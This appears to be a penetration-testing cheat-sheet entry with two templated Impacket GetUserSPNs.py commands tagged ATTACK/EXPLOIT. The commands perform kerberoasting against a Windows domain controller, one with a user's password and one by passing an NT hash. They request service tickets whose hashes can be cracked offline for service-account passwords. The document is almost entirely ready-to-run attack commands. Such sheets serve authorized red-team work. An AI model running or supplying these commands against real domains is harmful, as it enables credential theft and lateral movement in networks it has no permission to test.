 # GetUSERSPN (imp)

% impacket-kerberos, windows, kerberos, 88

## kerberoasting (user account)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain>/<user>:<password>'
```


## kerberoasting (pth)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> -hashes :<nt_hash> '<domain>/<user>'
```